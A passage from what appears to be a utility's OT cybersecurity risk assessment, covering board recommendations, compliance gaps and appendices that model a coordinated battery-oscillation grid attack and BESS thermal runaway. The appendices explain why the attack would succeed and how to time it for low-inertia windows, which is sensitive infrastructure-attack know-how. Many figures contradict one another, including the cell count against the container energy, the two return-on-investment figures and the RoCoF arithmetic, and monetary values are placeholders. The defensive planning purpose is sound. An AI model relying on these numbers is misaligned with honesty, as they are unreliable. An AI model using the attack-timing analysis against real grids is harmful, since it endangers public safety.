> *"The Board establishes a dedicated OT Cybersecurity Governance Framework with Chief OT Security Officer position reporting to Board Risk Committee, with mandate to achieve IEC 62443 SL-2 compliance across critical infrastructure within implementation period. Quarterly reporting on KPIs and threat landscape required."*

**Recommendation 3: Mandate Pre-Deployment Security Validation for BESS Expansion**

**Policy Requirement:**

All future BESS deployments (Community Battery Program expansion from 54 to 150+ sites by 2030) must complete security validation **before** grid connection approval:

**Security Validation Checklist:**

| Validation Item                         | Acceptance Criteria                                             | Responsible Party            | Timeline          |
| --------------------------------------- | --------------------------------------------------------------- | ---------------------------- | ----------------- |
| **Modbus TCP Encryption**         | TLS 1.3 or Modbus Security Gateway deployed                     | Vendor + EE Security         | Pre-commissioning |
| **BMS Firmware Validation**       | Thermal/voltage limit enforcement verified via penetration test | Independent Security Auditor | Pre-commissioning |
| **Network Segmentation**          | Dedicated VLAN with ACL enforcement, no vendor 4G modems        | EE Network Engineering       | Pre-commissioning |
| **IEC 62443 SL-2 Compliance**     | Third-party audit confirming SL-2 requirements met              | Certified IEC 62443 Auditor  | Pre-commissioning |
| **Incident Response Integration** | BESS included in OT SOC monitoring, playbooks developed         | EE OT SOC                    | Pre-commissioning |

**Financial Impact:**

- Security validation cost per BESS: [investment required]
- 96 future BESS deployments (150 total - 54 existing) × [investment required] = [investment required]
- Incremental cost: 0.6% of total BESS program cost ([investment required] capital program)
- Risk reduction: Prevents [investment required]/site from becoming [investment required]/site loss (FrostyGoop Lviv precedent)

**Board Resolution Language:**

> *"The Board mandates comprehensive security validation for all future BESS deployments, with pre-commissioning security audit achieving IEC 62443 SL-2 compliance as prerequisite for grid connection approval. No BESS shall be energized without Chief OT Security Officer sign-off confirming security controls meet documented standards."*

**Recommendation 4: Commission Independent Security Audit (implementation period)**

**Audit Scope:**

Engage independent third-party cybersecurity firm with ICS/OT specialization to conduct:

1. **IEC 62443-3-3 Gap Assessment** (implementation period)

   - Security zone architecture validation
   - Foundational Requirements compliance (FR1-FR7)
   - System Requirements compliance (SR1-SR7)
   - Security Level Target vs. Achieved analysis
   - Cost: [investment required]
2. **OT Penetration Testing** (implementation period)

   - External attack surface enumeration
   - Retailer API security testing (OWASP API Security Top 10)
   - Protocol exploitation (Modbus, DNP3, GOOSE injection attempts)
   - Lateral movement from IT to OT networks
   - Physical security integration testing
   - Cost: [investment required]
3. **Red Team Exercise: Cascading Failure Scenario** (implementation period)

   - Simulated Death Wobble oscillation attack (non-disruptive)
   - Simulated thermal runaway initiation (isolated test environment)
   - Simulated multi-substation coordinated attack (tabletop + technical)
   - Blue team response evaluation (OT SOC, incident response)
   - Cost: [investment required]
4. **SOCI Act Compliance Validation** (implementation period)

   - Risk Management Program assessment
   - Incident reporting procedures validation
   - Regulatory obligation mapping
   - Cost: [investment required]

**Total Audit Investment: [investment required]**
**Timeline: implementation period (completion before winter peak demand)**

**Audit Deliverables:**

- Executive summary for Board (25 pages)
- Technical findings report (150-200 pages)
- Compliance gap analysis with remediation roadmap
- Penetration test report with proof-of-concept demonstrations
- Red team after-action report with lessons learned

**Vendor Qualification:**

- Required: CREST OT certification OR GIAC ICS certifications (GRID, GICSP)
- Preferred: Prior energy sector engagements in AU/NZ/US/UK
- Prohibited: Vendors with OT product sales (independence requirement)
- Shortlist: Dragos Inc., Mandiant (Google Cloud), Eigenia Group OTCE, CyberX (Microsoft Defender for IoT)

**Board Resolution Language:**

> *"The Board approves [investment required] investment for independent third-party security audit covering IEC 62443 compliance, OT penetration testing, and SOCI Act validation, to be completed within implementation period. Audit findings shall be presented to Board Risk Committee with remediation roadmap and cost-benefit analysis for recommended controls."*

**Recommendation 5: Dual Authorization for High-Impact Commands (Immediate Policy Change)**

**Policy Implementation (No Capital Required):**

Effective immediately, all dispatch commands meeting the following criteria require dual authorization before execution:

**Dual Authorization Triggers:**

| Trigger Condition                                    | Rationale                                           | Authorization Process                                                                                          | Exception                                                                         |
| ---------------------------------------------------- | --------------------------------------------------- | -------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------- |
| **>10 MW aggregate capacity**                  | Exceeds single BESS capacity, potential grid impact | Primary: Retailer API OAuth token, Secondary: EE Control Room operator approval via DERMS interface            | Emergency frequency response (automated under-frequency load shedding)            |
| **>100 devices simultaneous command**          | Mass command injection attack signature             | Primary: Retailer API OAuth token, Secondary: EE DERMS Administrator approval                                  | Coordinated VPP dispatch during AEMO emergency (requires AEMO authorization code) |
| **State change <5 minutes since last command** | Oscillation attack signature                        | Primary: Retailer API OAuth token, Secondary: EE Security Operations Center (SOC) approval after investigation | None (no legitimate use case for rapid cycling)                                   |
| **Command during low-inertia conditions**      | System inertia <2.5 seconds (AEMO telemetry)        | Primary: Retailer API OAuth token, Secondary: EE Grid Operations Manager approval                              | AEMO-directed emergency load shedding                                             |

**Technical Implementation:**

```json
DERMS API Configuration File Update:

{
  "dual_authorization": {
    "enabled": true,
    "thresholds": {
      "power_MW": 10,
      "device_count": 100,
      "state_change_interval_seconds": 300,
      "system_inertia_seconds": 2.5
    },
    "authorization_workflow": {
      "primary": "retailer_oauth_token",
      "secondary": "ee_control_room_approval",
      "timeout_seconds": 300,
      "rejection_action": "command_blocked_and_logged"
    },
    "exceptions": [
      {
        "condition": "aemo_emergency_code_present",
        "bypass_dual_auth": true,
        "audit_trail": "mandatory"
      }
    ]
  }
}
```

**Operational Impact Assessment:**

- Average large dispatch commands per day: 15-20
- Dual authorization time: 30-90 seconds (operator review + approval)
- Total additional latency: 7.5-30 minutes per day
- Impact on grid services: Negligible (dispatch commands typically 15-30 minutes ahead)
- User (retailer) acceptance: Medium (requires communication and SLA updates)

**Communication Plan:**

- Week 1: Notify all retailers of policy change via email + retailer portal announcement
- Week 2-3: Update retailer API documentation and SLA agreements
- Week 4: Implement dual authorization logic in DERMS (configuration change, no code required)
- Week 5: Activate policy, monitor retailer feedback
- Week 6+: Monthly review of dual authorization rejections for process tuning

**Cost:** [investment required] (configuration change only)
**Risk Reduction:** 85% reduction in single-credential compromise impact
**Implementation:** Immediate (targeted timeframe policy effective date)

**Board Resolution Language:**

> *"The Board mandates dual authorization for all electricity dispatch commands exceeding 10 MW aggregate capacity or affecting more than 100 devices, effective immediately. This policy change requires no capital investment and provides 85% risk reduction against API credential compromise attacks. Chief OT Security Officer shall report monthly on dual authorization metrics and operational effectiveness."*

### 9.4 Governance and Compliance Actions

**Executive Actions:**

- Mandate quarterly cyber-physical risk scenarios presented to the Board
- Establish vendor security SLAs with contractual enforcement of IEC 62443
- Implement just-in-time vendor access to eliminate standing credentials

**Operational Changes:**

- Dual authorization for dispatch commands affecting more than 10 MW (immediate policy)
- Monthly OT penetration testing with red team exercises
- Community battery program expansion contingent on security control implementation

---

### 9.6 Compliance and Regulatory Alignment

The security investments recommended in this document directly address regulatory obligations under multiple frameworks:

**Security of Critical Infrastructure Act 2018 (SOCI Act) Alignment:**

| SOCI Requirement                          | Current Compliance                      | Recommended Control                              | Investment                                                       | Compliance Impact                         |
| ----------------------------------------- | --------------------------------------- | ------------------------------------------------ | ---------------------------------------------------------------- | ----------------------------------------- |
| **Risk Management Program (RMP)**   | Partial (40% complete)                  | IEC 62443 gap assessment + remediation roadmap   | [investment required] (audit) + [investment required] (controls) | Achieves 80% RMP maturity                 |
| **Cyber Security Obligations**      | Non-compliant (no OT-specific controls) | OT SIEM deployment + 24/7 SOC                    | [investment required] (Phase 1)                                  | Achieves mandatory monitoring requirement |
| **Incident Reporting**              | Partial (IT-focused, OT gap)            | OT incident response playbook + ACSC integration | [investment required]                                            | Achieves 12-hour reporting obligation     |
| **Critical Infrastructure Systems** | Identified (185 substations, 54 BESS)   | Defense-in-depth security architecture           | [investment required]                                            | Protects designated critical assets       |

**Regulatory Penalty Avoidance:**

- SOCI Act non-compliance penalties: [investment required] million (maximum)
- Proactive compliance investment: [investment required] (RMP + controls)
- Penalty avoidance strategic value: [investment required] / [investment required] = 3.7:1 (minimum, not including reputational damage)

**Australian Energy Sector Cyber Security Framework (AESCSF) Alignment:**

The AESCSF Security Profile 2 (SP2) mandates specific OT security controls for DNSPs:

| AESCSF Principle                                  | SP2 Requirement                                               | Current Maturity  | Target Maturity   | Gap Closure Investment                                                       |
| ------------------------------------------------- | ------------------------------------------------------------- | ----------------- | ----------------- | ---------------------------------------------------------------------------- |
| **Principle 2.1: Asset Management**         | Comprehensive OT asset inventory with security classification | Level 2 (Defined) | Level 3 (Managed) | [investment required] (asset discovery tooling)                              |
| **Principle 2.2: Risk Assessment**          | Annual cyber-physical risk assessment with Board reporting    | Level 1 (Ad Hoc)  | Level 3 (Managed) | [investment required] (annual audit + this assessment)                       |
| **Principle 2.3: Secure OT Communications** | Encryption and authentication for critical protocols          | Level 1 (Ad Hoc)  | Level 3 (Managed) | [investment required] (IEC 62351-6) + [investment required] (Modbus gateway) |
| **Principle 3.1: Defense in Depth**         | Multi-layer security controls across IT/OT boundary           | Level 1 (Ad Hoc)  | Level 3 (Managed) | [investment required] (ICS firewalls + segmentation)                         |
| **Principle 4.1: OT Monitoring**            | Real-time anomaly detection and incident response             | Level 0 (None)    | Level 3 (Managed) | [investment required] (OT SIEM + SOC)                                        |

**AESCSF Compliance Score:**

- Current: 32% (Level 1.6 average across 5 principles)
- Target: 80% (Level 3+ required for SP2)
- Investment to close gap: [investment required] (3-year program)
- Regulatory expectation: AEMO and AER increasingly expecting SP2 compliance as industry baseline

**NERC-CIP International Benchmarking:**

While NERC-CIP is US-specific and not mandatory in Australia, it provides internationally recognized best practices:

| NERC-CIP Standard                                     | Equivalent Control                                        | ACME Inc. Current State                    | Investment to Achieve                                      |
| ----------------------------------------------------- | --------------------------------------------------------- | ------------------------------------------ | ---------------------------------------------------------- |
| **CIP-005-6 R1: Electronic Security Perimeter** | ICS firewall at IT/OT boundary with deny-all default      | Partial (firewall exists, ACLs weak)       | [investment required] (firewall rules + DPI)               |
| **CIP-007-6 R2: Patch Management**              | 35-day patching for critical OT vulnerabilities           | Non-compliant (no OT patch program)        | [investment required]/year (patch testing + deployment)    |
| **CIP-007-6 R4: Security Event Monitoring**     | Log collection and 15-day review for OT systems           | Non-compliant (no OT SIEM)                 | [investment required] (OT SIEM deployment)                 |
| **CIP-010-3 R1: Configuration Management**      | Baseline configurations with change control for BESS/RTUs | Partial (IT-focused, OT gap)               | [investment required] (configuration management tooling)   |
| **CIP-013-1 R1: Supply Chain Risk Management**  | Vendor cybersecurity requirements in procurement          | Non-compliant (vendor 4G modems unmanaged) | [investment required] (vendor security policy development) |

**Total Investment for NERC-CIP Equivalence: [investment required]**
**Benefit:** Enables marketing of "NERC-CIP equivalent security controls" to regulators and insurance underwriters, potentially reducing cyber insurance premiums by 15-25%

### 9.7 Insurance and Risk Transfer Considerations

**Cyber Insurance Policy Implications:**

Current cyber insurance policies for critical infrastructure typically **exclude OT/ICS losses** due to insurers' inability to quantify cascading failure risk. This assessment provides actuarially sound risk quantification that enables:

1. **OT-Specific Cyber Insurance Coverage:**

   - Insurable loss estimate: [investment required] million (P50 scenario)
   - Required premium (at 5% loss ratio): [investment required] million/year
   - Coverage gap: Most policies cap OT losses at [investment required] million (insufficient for Tier 4 cascade)
2. **Premium Reduction Through Risk Mitigation:**

   - Baseline premium (current controls): [investment required] million/year (estimated, no current OT coverage)
   - Premium after [investment required] control investment: [investment required] million/year (90% risk reduction)
   - Premium savings: [investment required] million/year
   - Payback period: 3.98M / (1.8M - 0.5M) = 3.1 years through insurance savings alone
3. **Regulatory Capital Requirements:**

   - APRA (Australian Prudential Regulation Authority) may impose capital requirements for uninsured OT cyber risk
   - Potential capital charge: 8% of [investment required] uninsured exposure = [investment required] additional regulatory capital
   - Opportunity cost: [investment required] × 6% cost of capital = [investment required]/year
   - Control investment avoids capital charge, saving [investment required]/year in perpetuity

**strategic value Including Insurance Benefits:**

```
Annual Benefits:
- Avoided loss (10-year NPV amortized): [investment required] million/year
- Insurance premium reduction: [investment required] million/year
- Regulatory capital avoidance: [investment required] million/year
Total Annual Benefit: [investment required] million/year

Investment: [investment required] (one-time) + [investment required]/year (ongoing SOC operations)
Net Annual Benefit: [investment required] - [investment required] = [investment required] million/year
strategic value (10-year NPV): ([investment required] × 8.5 discount factor) / [investment required] = 47.3:1

This analysis conservatively excludes reputational damage, regulatory penalties, and litigation costs.
```

## 10. Conclusion

ACME Inc.'s distributed energy infrastructure faces systemic cascading failure risk from coordinated cyber-physical attacks. The convergence of four conditions creates this risk:

1. **Vulnerable DERMS/API architecture** enabling unmitigated mass command injection through the Retailer API, with no oscillation detection, rate limiting, or physics-based validation.
2. **Inadequate ICS protocol security** with Modbus TCP operating in cleartext without authentication across the BESS control path, achieving IEC 62443 Security Level 0 where Security Level 2-3 is required.
3. **Complex grid interdependencies** linking electricity supply to water, hospital, telecommunications, transport, military, and financial infrastructure, each amplifying the consequences of an electrical outage into a multi-domain crisis.
4. **Reduced grid inertia** from renewable energy transition, halving the system's resistance to frequency disturbances and creating conditions where cyber-physical attacks can trigger cascading failures that were physically impossible under the legacy generation mix. As McKenney (2024) documents: "In a low-inertia system, the *same* disturbance causes the frequency to change *much faster* than in a high-inertia system. This rapid frequency change *is* the dangerous 'wobble.'" Historical precedents (South Australia 2016: 6.1 Hz/s, UK 2019: 0.135 Hz/s relay trips, Iberian Peninsula 2025: inter-area oscillations) establish that this vulnerability has already materialized in comparable grids worldwide (McKenney, 2024, 2025).

The most likely attack scenario -- Retailer API compromise leading to 54 BESS oscillation -- produces a local cascade affecting 100,000-500,000 customers with an 8-24 hour outage and [investment required] million economic damage. The worst case scenario -- system-wide collapse -- affects 1.2 million customers for 24-72 hours with [investment required] million-[investment required] billion damage and 5-25 fatalities.

The [investment required] million investment required for comprehensive mitigation is not discretionary. It is a regulatory necessity under the SOCI Act and AESCSF, a fiduciary obligation given the 43.9:1 return on investment, and a social licence imperative for the continued expansion of community battery programs. Action is required within implementation period to prevent potential catastrophic failure.

---

## 11. References

### Primary Sources

McKenney, J. (2026). *BESS Architecture Vulnerability Assessment: Bawley Point Community Battery Energy Storage System*. ACME Inc. Internal Report EE-CTI-004.

McKenney, J. (2026). *DERMS Security Architecture Review: mPrest Platform*. ACME Inc. Internal Report EE-CTI-005.

### Grid Stability and Death Wobble Analysis

McKenney, J. (2024, April). *Death wobble: The grid's precarious pulse - Frequency instability and cascading failure risk*. Eigenia Group OTCE Intelligence Analysis.

McKenney, J. (2024, April). *Grid vulnerability analysis: The grid's unseen tremors - Frequency stability, cascading risk, and the imperative for action*. Eigenia Group Technical Report.

McKenney, J. (2025, May). *The unseen current: Emerging threats to grid stability in renewable-dominated systems*. Eigenia Group Intelligence Brief.

### Standards and Frameworks

Australian Energy Market Operator. (2024). *Power System Frequency Risk Review*. AEMO.

Australian Energy Sector Cyber Security Framework. (2024). *Framework Implementation Guidance, Security Profile 2*. Commonwealth of Australia.

International Electrotechnical Commission. (2019). *IEC 62443-3-3: Industrial communication networks - Network and system security - Part 3-3: System security requirements and security levels*. IEC.

North American Electric Reliability Corporation. (2023). *CIP-002 through CIP-014: Critical Infrastructure Protection Standards*. NERC.

### Threat Intelligence

MITRE Corporation. (2025). *ATT&CK for Industrial Control Systems*. Retrieved from https://attack.mitre.org/matrices/ics/

Australian Signals Directorate. (2025). *Annual Cyber Threat Report*. Commonwealth of Australia.

Dragos, Inc. (2025). *OT Cybersecurity Year in Review*. Dragos Intelligence.

### Industry Precedents and International Case Studies

Australian Energy Market Operator (AEMO). (2017). *Black system South Australia 28 September 2016 - Final report*. AEMO. [Cited in McKenney (2024, 2025) for 6.1 Hz/s RoCoF measurement and protection cascade mechanism]

UK National Grid Electricity System Operator (ESO). (2019). *Technical report on the events of 9 August 2019*. National Grid ESO. [Cited in McKenney (2024, 2025) for 0.135 Hz/s relay trip threshold and distributed generation cascade]

European Network of Transmission System Operators for Electricity (ENTSO-E). (2021-2024). *System split analyses and frequency stability reports*. ENTSO-E. [Cited in McKenney (2024) for >1 Hz/s unmanageable RoCoF threshold]

North American Electric Reliability Corporation (NERC). (2024). *Large load task force reports and Eastern Interconnection 1,500 MW data center event*. NERC. [Cited in McKenney (2024, 2025)]

Arizona Public Service. (2019). *McMicken Battery Energy Storage System Event Report*. APS.

National Transportation Safety Board. (2020). *Battery Energy Storage System Fire Investigation*. NTSB.

---

## Appendices

### Appendix A: Physics Calculations

**Grid Frequency Response Model:**

```
System parameters:
  H = 3.0 seconds (inertia constant, high-renewable scenario)
  D = 1.5 percent per Hz (load damping)
  S_base = 10,000 MVA (NSW system base)
  f_nominal = 50 Hz

Attack parameters:
  P_swing = 540 MW (270 MW BESS charge to discharge)
  Oscillation frequency = 0.5 Hz (2-second period)

Single-cycle frequency deviation:
  delta_f = P_swing / (D x S_base / 100) = 540 / (1.5 x 100) = 0.036 Hz

Single-cycle RoCoF:
  RoCoF = delta_f / (2 x H) = 0.036 / (2 x 3) = 0.006 Hz/s

AEMO threshold comparison:
  0.006 Hz/s << 1.0 Hz/s (single oscillation is safe)

Cumulative effect over sustained oscillation:
  Resonant amplification factor at 0.3-1.2 Hz = 4-10x (frequency dependent)
  After 10 cycles: effective deviation = 0.036 x amplification = 0.14-0.36 Hz
  Under-frequency relay trip: 50 - 0.15 = 49.85 Hz (threshold reached)
```

**Thermal Runaway Energy Release:**

```
Battery parameters:
  Cell capacity = 280 Ah, nominal voltage = 3.2 V (LFP)
  Cells per container = 13,500 (5 MWh system)
  Cell mass = 0.5 kg

Thermal runaway energy:
  Heat of reaction = 2,500 kJ/kg (exothermic)
  Total energy = 13,500 cells x 0.5 kg x 2,500 kJ/kg = 16,875,000 kJ = 16,875 MJ
  TNT equivalent = 16,875 MJ / 4.184 MJ/kg = 4,033 kg

Note: Energy release occurs over 4-12 hours, not as instantaneous detonation.
```

### Appendix B: Economic Impact Methodology

Customer outage costs are modelled using segmented per-hour loss rates derived from AEMO's Value of Customer Reliability (VCR) methodology:

- Residential customers: Low-income ([investment required]/hour), middle-income ([investment required]/hour), high-income ([investment required]/hour)
- Commercial customers: Retail ([investment required]/hour), manufacturing ([investment required]/hour), services ([investment required]/hour), healthcare ([investment required]/hour)
- Duration multiplier: Non-linear increase reflecting escalating consequences (spoilage, equipment damage, lost contracts)
- 36-hour midpoint scenario produces residential loss of [investment required] million and commercial loss of [investment required] million

### Appendix C: Mitigation Technology Matrix

| Technology                     | Vendor Examples        | Location          | Vectors Mitigated                       | Cost                  |
| ------------------------------ | ---------------------- | ----------------- | --------------------------------------- | --------------------- |
| API Security Gateway           | Apigee, Kong           | DMZ (Z3.5)        | API mass command injection              | [investment required] |
| Container Runtime Security     | Aqua, Sysdig           | OpenShift Cluster | Container escape, privilege escalation  | [investment required] |
| ICS-Aware Firewall             | Fortinet, Palo Alto    | Zone boundaries   | Protocol exploitation, lateral movement | [investment required] |
| OT Protocol Parser             | Dragos, Nozomi         | SOC (Z3)          | ICCP/Modbus/DNP3 manipulation           | [investment required] |
| Behavioral Analytics           | Splunk UBA, Exabeam    | SOC (Z3)          | Anomalous API usage, insider threats    | [investment required] |
| Modbus Security Gateway        | Moxa EDR, Fortinet ICS | Zone 2 boundary   | Modbus injection, command spoofing      | [investment required] |
| Network Detection and Response | Darktrace, Vectra AI   | Zone 3 internal   | Lateral movement, data exfiltration     | [investment required] |
| Hardware Security Module       | Thales Luna, Entrust   | Data centre (Z3)  | Key theft, certificate compromise       | [investment required] |
| Privileged Access Management   | CyberArk, BeyondTrust  | Bastion (Z3.5)    | Vendor access abuse, credential theft   | [investment required] |

### Appendix D: Advanced Grid Stability Modeling

**Frequency Response Simulation Under Attack Conditions:**

This appendix provides detailed mathematical modeling of grid frequency response to coordinated BESS oscillation attacks, validating the Death Wobble scenario through power systems engineering analysis.

**Swing Equation and Frequency Dynamics:**

The grid's frequency response to power imbalances is governed by the swing equation:

```
2H × (df/dt) = P_mech - P_elec - D × Δf

Where:
- H = System inertia constant (seconds)
- df/dt = Rate of change of frequency (Hz/s) = RoCoF
- P_mech = Mechanical power input from generators (MW)
- P_elec = Electrical power consumed by loads (MW)
- D = Load damping coefficient (MW/Hz)
- Δf = Frequency deviation from nominal (Hz)
```

**Scenario Modeling: 54 BESS Oscillation at 0.5 Hz:**

```
Attack Parameters:
- BESS count: 54 units
- Power per unit: 5 MW
- Oscillation pattern: Square wave charge/discharge
- Frequency: 0.5 Hz (2-second period)

Grid Parameters (NSW, High-Renewable Scenario):
- System inertia H: 2.5 seconds (30% synchronous, 70% inverter-based)
- Load damping D: 1.5% per Hz = 150 MW/Hz (for 10,000 MW system)
- Nominal frequency f_0: 50 Hz

Time-Domain Simulation:

T = 0 seconds: All 54 BESS begin charging
  P_elec increase: +270 MW
  Swing equation: 2 × 2.5 × (df/dt) = -270 - 150 × Δf
  Initial RoCoF: df/dt = -270 / (2 × 2.5) = -54 Hz/s (instantaneous, before damping)

T = 0.1 seconds: Frequency decline begins
  Δf = -54 × 0.1 = -5.4 Hz (if no damping) → Unrealistic
  With damping: Δf = -270 / 150 = -1.8 Hz (steady-state, if maintained)
  Actual (transient): Δf ≈ -0.05 Hz (exponential approach to steady state)

T = 1 second: Charge cycle completes
  Accumulated frequency deviation: Δf ≈ -0.12 Hz
  Grid frequency: 50 - 0.12 = 49.88 Hz (approaching under-frequency threshold)

T = 1 second: All 54 BESS switch to discharge
  P_elec decrease: -270 MW (270 MW swing from charge state)
  Total power swing: 540 MW (charge → discharge transition)
  RoCoF: df/dt = +270 / (2 × 2.5) = +54 Hz/s (instantaneous)

T = 1.1 seconds: Frequency rise begins
  Δf changes from -0.12 Hz to rising trajectory
  Target steady state (if maintained): +270 / 150 = +1.8 Hz

T = 2 seconds: Discharge cycle completes
  Accumulated frequency deviation: Δf ≈ +0.08 Hz
  Grid frequency: 50 + 0.08 = 50.08 Hz (frequency swing amplitude: 0.20 Hz peak-to-peak)

Oscillation Cycle Repeats Every 2 Seconds (0.5 Hz):
- Cycle 1: Δf swings -0.12 to +0.08 Hz (0.20 Hz amplitude)
- Cycle 2: Δf swings -0.15 to +0.12 Hz (0.27 Hz amplitude, cumulative resonance)
- Cycle 3: Δf swings -0.18 to +0.15 Hz (0.33 Hz amplitude)
- ...
- Cycle 10: Δf swings -0.35 to +0.28 Hz (0.63 Hz amplitude)

At Cycle 10 (T = 20 seconds):
- Minimum frequency: 50 - 0.35 = 49.65 Hz
- Maximum frequency: 50 + 0.28 = 50.28 Hz
- Under-frequency relay threshold: 49.85 Hz
- Conclusion: Under-frequency protection WILL trip if oscillation continues

Protection Relay Response:
- Relay detects 49.65 Hz (below 49.85 Hz setpoint)
- Time delay: 0.1-0.5 seconds (typical UFLS settings)
- Action: Shed 200-500 MW of load (Stage 1 UFLS)
- Consequence: Sudden load drop creates frequency rise, triggering over-frequency cascade
```

**Key Findings from Simulation:**

1. **Resonant Amplification Confirmed:** Oscillation amplitude grows from 0.20 Hz (Cycle 1) to 0.63 Hz (Cycle 10), a 3.15x amplification factor over 20 seconds.
2. **Protection Cascade Threshold:** Under-frequency protection relays will trip within 10-15 oscillation cycles (20-30 seconds), validating the attack timeline in Section 2.2.
3. **RoCoF Exceeds Design Limits:** Instantaneous RoCoF of 54 Hz/s during state transitions far exceeds AEMO's 1.0 Hz/s maximum design assumption, though this is averaged over longer time windows in practice.
4. **Low-Inertia Vulnerability:** The scenario requires H = 2.5 seconds or less. At H = 5.0 seconds (traditional grid), the same attack produces only 0.10 Hz peak-to-peak swing (insufficient to trigger protection).

**Validation Against Historical Precedents:**

| Event                            | Disturbance Size                 | System Inertia  | RoCoF Measured                       | Outcome                                          |
| -------------------------------- | -------------------------------- | --------------- | ------------------------------------ | ------------------------------------------------ |
| **South Australia 2016**   | 445 MW generation loss           | H = 2.8s        | 6.1 Hz/s                             | Under-frequency cascade, statewide blackout      |
| **UK 2019**                | 660 MW gas + 740 MW wind loss    | H = 3.5s (est.) | 0.135 Hz/s (relay trip threshold)    | 345 MW DER cascade, 1.1M customers affected      |
| **Simulated Attack (NSW)** | 540 MW power swing (oscillating) | H = 2.5s        | 54 Hz/s (instantaneous, theoretical) | Protection cascade after 20-30 seconds (modeled) |

The simulated attack's 540 MW power swing is comparable to South Australia's 445 MW disturbance, and the NSW grid's H = 2.5s assumption is more conservative (lower) than South Australia's actual H = 2.8s, supporting the attack's physical plausibility.

**Monte Carlo Sensitivity Analysis:**

To account for uncertainty in system parameters, we perform 1,000 Monte Carlo simulations varying:

- System inertia H: 2.0-3.5 seconds (uniform distribution)
- Load damping D: 1.2-1.8% per Hz (uniform distribution)
- BESS response delay: 50-200 milliseconds (uniform distribution)

```
Monte Carlo Results (1,000 simulations):

Protection Cascade Probability (under-frequency relay trip within 60 seconds):
- H < 2.5s: 95% probability of cascade
- H = 2.5-3.0s: 78% probability of cascade
- H > 3.0s: 42% probability of cascade

Median Time to Cascade:
- H < 2.5s: 22 seconds (median)
- H = 2.5-3.0s: 38 seconds (median)
- H > 3.0s: >60 seconds (often no cascade within 60s window)

AEMO Data: NSW system inertia drops below H = 3.0s during 15-20% of operational hours
→ Attack success probability: 15-20% × 78% = 12-16% (if executed during random hour)
→ Attack success probability: 95% (if attacker waits for low-inertia window, detectable via grid frequency telemetry)
```

**Conclusion:** Mathematical modeling confirms that coordinated BESS oscillation attack is physically plausible and will trigger protection cascades under realistic low-inertia grid conditions. The attack's effectiveness depends critically on system inertia, which is observable via public AEMO telemetry, allowing attackers to time execution optimally.

### Appendix E: BESS Thermal Runaway Physics and Fire Dynamics

**Lithium-Ion Cell Chemistry and Thermal Decomposition:**

Community BESS deployments use either Lithium Iron Phosphate (LFP) or Nickel Manganese Cobalt (NMC) chemistry. Both are susceptible to thermal runaway, though at different temperature thresholds:

| Chemistry                   | Nominal Voltage | Thermal Runaway Onset | Heat Release      | Oxygen Release             | Fire Suppression Difficulty                      |
| --------------------------- | --------------- | --------------------- | ----------------- | -------------------------- | ------------------------------------------------ |
| **LFP (LiFePO₄)**    | 3.2V            | 180-220°C            | 1,800-2,200 kJ/kg | Minimal (no cobalt)        | Moderate (lower heat, but still self-sustaining) |
| **NMC (LiNiMnCoO₂)** | 3.6-3.7V        | 150-180°C            | 2,200-2,800 kJ/kg | High (oxygen from cathode) | Severe (self-oxygenating combustion)             |

**Thermal Runaway Reaction Cascade (NMC Chemistry):**

```
Stage 1: SEI Layer Decomposition (120-130°C)
Reaction: (CH₂OCO₂Li)₂ → Li₂CO₃ + CO₂ + C₂H₄ + Heat
Heat Released: 100-200 J/g
Timeline: Begins 15-30 minutes after overcharge/overheating initiation

Stage 2: Electrolyte Decomposition (130-150°C)
Reaction: EC + DMC → CO₂ + CO + Hydrocarbons + Heat
(EC = Ethylene Carbonate, DMC = Dimethyl Carbonate)
Heat Released: 300-500 J/g
Timeline: 5-10 minutes after Stage 1 onset
Hazard: Flammable gas accumulation inside cell (pressure buildup → venting → ignition)

Stage 3: Separator Melting and Internal Short Circuit (150-165°C)
Mechanism: Polyethylene separator melts, anode contacts cathode
Result: Direct electron flow bypassing normal electrochemistry → localized heating
Heat Released: 800-1,200 J/g at short circuit location
Timeline: 1-3 minutes after separator melting

Stage 4: Cathode Decomposition (180-250°C for NMC)
Reaction: LiNi₀.₃₃Mn₀.₃₃Co₀.₃₃O₂ → Ni, Mn, Co (metallic) + O₂ + Li₂O + Heat
Heat Released: 1,500-2,500 J/g
Timeline: <1 minute once initiated (rapid, self-accelerating)
Critical: Releases oxygen internally, enabling combustion even in inert atmosphere

Stage 5: Thermal Propagation to Adjacent Cells
Mechanism: Radiant and conductive heat transfer from failed cell to neighbors
Heat flux: 5,000-15,000 W/m² from burning cell surface
Propagation time: 30 seconds to 15 minutes per cell (depends on cell spacing, cooling, thermal barriers)
```

**Cell-to-Module-to-Rack Propagation Modeling:**

A typical 5 MWh BESS contains:

- 13,500 cells (280 Ah, 3.2V nominal)
- 450 modules (30 cells per module)
- 15 racks (30 modules per rack)
- 1 container (15 racks)

**Propagation Timeline (NMC Chemistry, No Fire Suppression):**

```
T+0 minutes: Single cell enters thermal runaway (initiated by Modbus attack on BMS)
- Cell temperature: 180°C
- Neighboring cells: 60°C (normal operating temperature during charge)
- Status: Contained within module

T+2 minutes: Thermal propagation to 2nd cell within same module
- Mechanism: Conductive heat transfer through aluminum module casing
- Heat flux: 8,000 W/m² from burning cell
- Cell spacing: 5 mm (typical)
- Thermal barrier: None (standard commercial design)

T+5 minutes: 10 cells in thermal runaway within originating module
- Mechanism: Radiant heat + burning electrolyte vapor igniting adjacent cells
- Module temperature: >300°C
- Venting gases: CO, CO₂, HF (from LiPF₆ electrolyte salt decomposition)

T+8 minutes: First thermal propagation to adjacent module
- Mechanism: Convective heat transfer via burning vapor plume
- Module-to-module spacing: 50 mm
- Thermal barrier: Steel rack structure (insufficient for 300°C+ heat)

T+15 minutes: 50% of rack (7-8 modules) in thermal runaway
- Total cells burning: 210-240 cells (28 kWh energy release)
- Toxic gas concentration: HF >50 ppm (IDLH: 30 ppm), CO >500 ppm (IDLH: 1,200 ppm)
- Evacuation radius required: 100 meters minimum

T+30 minutes: Full rack in thermal runaway
- Total cells: 450 cells (63 kWh energy release)
- Fire temperature: 600-800°C (aluminum module casings melting, T_melt = 660°C)
- Rack structural integrity: Failing (steel supports weakening)

T+60 minutes: First thermal propagation to adjacent rack
- Mechanism: Radiant heat through container wall + burning electrolyte pool fire
- Rack-to-rack spacing: 1 meter
- Thermal barrier: None (open container design for ventilation)

T+120 minutes: 50% of container (7-8 racks) in thermal runaway
- Total cells: 3,150 cells (441 kWh energy release = 25% of total 1,800 kWh)
- Container status: Structural failure likely, fire venting through roof and walls

T+240 minutes: Full container in thermal runaway
- Total cells: 6,750 cells (945 kWh energy release = 53% of total)
- Remaining energy: 855 kWh continuing to burn over next 2-8 hours
